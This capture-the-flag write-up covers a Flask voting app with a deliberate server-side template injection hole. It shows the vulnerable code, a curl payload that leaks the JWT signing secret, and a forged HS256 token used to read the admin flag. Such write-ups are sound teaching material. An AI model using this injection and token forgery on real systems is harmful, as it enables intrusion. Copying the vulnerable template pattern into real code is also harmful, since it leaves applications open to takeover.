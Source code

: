 ```yaml
---
layout: writeup
title: Template Token
tags: WebX
excerpt: "The citizens are voting, but it’s not the votes that matter - it’s the system that counts them. Cast your vote, inspect the results… but is that all there is? Your mission? Break into the admin panel and uncover the flag."
---
```


## Description

The citizens are voting, but it’s not the votes that matter - it’s the system that counts them.

Cast your vote, inspect the results… but is that all there is?

Your mission? Break into the admin panel and uncover the flag.

http://redac.ted:5000/

This challenge also provided the `app.py` file


## Solution

Here is the app.py file:

```python
import jwt
import datetime
import os
import re
from flask import Flask, render_template, render_template_string, request, jsonify
from functools import wraps
from dotenv import load_dotenv
from utils import db

load_dotenv()
app = Flask(__name__)

# secret key for our JWT signing! no one should know this
SECRETKEY = os.getenv("SECRETKEY")

def token_required(f):
    @wraps(f)
    def wrapper(*args, **kwargs):
        token = None

        auth_header = request.headers.get("Authorization", None)
        if auth_header and auth_header.startswith("Bearer "):
            token = auth_header.split()[1]

        if not token:
            return jsonify({"message":"Token is missing"}), 401

        try:
            payload = jwt.decode(token, SECRETKEY, algorithms=["HS256"])
            request.jwt_payload = payload

        except jwt.ExpiredSignatureError:
            return jsonify({"message":"Token has expired"}), 401

        except jwt.InvalidTokenError:
            return jsonify({"message":"Token is invalid"}), 401

        return f(*args, **kwargs)

    return wrapper

@app.route("/")
def home():
    return render_template("home.html")

@app.route("/admin")
@token_required
def admin():
    try:
        with open("/flag", "r") as f:
            flag_content = f.read().strip()
    except Exception:
        flag_content = "Unable to read /flag."

    return render_template("admin.html", flag=flag_content)

# sanitisation to prevent XSS and other injection attacks
def sanitize_input(user_input: str) -> str:
    return re.sub(r"[<>?,./;:|\\'\"\[\]\-=\(\)\*&\^%$#@!~]", "", user_input)

from utils import db  # make sure utils/db.py exists and is imported
# ...

@app.route("/vote", methods=["GET", "POST"])
def vote():
    if request.method == "GET":
        # Get candidates from the DB
        candidates = db.fetch_all_candidates()
        return render_template("vote.html", candidates=candidates)

    # POST: register vote
    candidate_raw = request.form.get("candidate", "")
    candidate = sanitize_input(candidate_raw)

    # Record the vote in the DB
    db.add_vote(username='voter', candidate_id=candidate)

    # Confirmation page
    template_source = f"""
	{% raw %}
    {{% extends "base.html" %}}
    {{% block content %}}
      <div style='text-align:center;padding-top:2rem'>
        <h1>Vote Confirmed</h1>
        You voted for: <br><strong>{candidate}</strong></p>

      </div>
    {{% endblock %}}
	{% endraw %}
    """
    return render_template_string(template_source, **globals())

app.run(host="0.0.0.0", port=5000, debug=True)
```

This is a pretty simple website. There is an `index` page, a `vote` page and an `admin` page. 

In order to see the admin page which has the flag on it, you need a valid JWT token which only allows the `HS256` algorithm and uses a set key, so there are no vulnerabilities there.

The index page just serves a static HTML page, so no vulnerability there

Finally, the vote page gets the user's input, sanitises it, and then displays a page with the said input on it.

Just a quick glance at how the vote page displays the user's input reveals a vulnerability. Instead of using jinja like your supposed to, the program gives the template all globals, and also the user's input is passed in through an f-string in python instead of specifically in jinja. This means that as long as we can get around the sanitisation, we can input jinja code into the template that will be executed. This could be useful for outputing any certain global variables... such as the `SECRETKEY` global variable.

The neccessary jinja to output the secret key would be `{{SECRETKEY}}` lets see if we can get this around the sanitisation.

Lukcily it is a horrible sanitisation method where any of these charcater `[<>?,./;:|\\'\"\[\]\-=\(\)\*&\^%$#@!~]` are removed from the string. Luckily `{` and `}` are not in this list, meaning we just need to vote for `{{SECRETKEY}}` and we get the secret key to sign our own JWT token and login to the admin page which gets us the flag.

```bash
$ curl -X POST "http://re.da.ct.ed:5000/vote" -d "candidate={{SECRETKEY}}"

    <!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Vote x Vote</title>
    <style>
      body { font-family: Arial, sans-serif; margin: 0; padding: 0; }
      nav { background: #333; padding: 10px; }
      nav a { color: #fff; margin-right: 15px; text-decoration: none; }
      nav a:hover { text-decoration: underline; }
      .container { padding: 20px; }
    </style>
  </head>
  <body>
    <nav>
      <a href="/">Home</a>
      <a href="/vote">Vote</a>      <!-- Added Vote link -->
      <a href="/admin">Admin</a>
    </nav>
    <div class="container">

      <div style='text-align:center;padding-top:2rem'>
        <h1>Vote Confirmed</h1>
        You voted for: <br><strong>ldidyouknowthatshinigamisloveapples</strong></p>

      </div>

    </div>
  </body>
</html>
```

There is the secret key `ldidyouknowthatshinigamisloveapples`

so just some quick python in the terminal using `PyJWT` in order to create out own jwt token

```python
>>> import jwt
>>> jwt.encode({}, "ldidyouknowthatshinigamisloveapples", algorithm="HS256")
'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.e30.dxgk4lCPRN6NdYYweVdcpIz0VSGl3IEV27ZzhxINRjQ'
```

The token checker just makes sure the token is properly signed, not that any info in it is correct, so I just signed an empty payload

Now time to make the request with the token

```bash
$ curl "http://re.da.ct.ed:5000/admin" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.e30.dxgk4lCPRN6NdYYweVdcpIz0VSGl3IEV27ZzhxINRjQ"
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Vote x Vote</title>
    <style>
      body { font-family: Arial, sans-serif; margin: 0; padding: 0; }
      nav { background: #333; padding: 10px; }
      nav a { color: #fff; margin-right: 15px; text-decoration: none; }
      nav a:hover { text-decoration: underline; }
      .container { padding: 20px; }
    </style>
  </head>
  <body>
    <nav>
      <a href="/">Home</a>
      <a href="/vote">Vote</a>      <!-- Added Vote link -->
      <a href="/admin">Admin</a>
    </nav>
    <div class="container">

  <h1>Admin Dashboard</h1>

  <p style="color: green; font-weight: bold;">
    FLAG: secedu{h0ld_my_s1gn4tur3s_pl34s3}
  </p>

    </div>
  </body>
</html>
```

There's the flag for us `secedu{h0ld_my_s1gn4tur3s_pl34s3}`
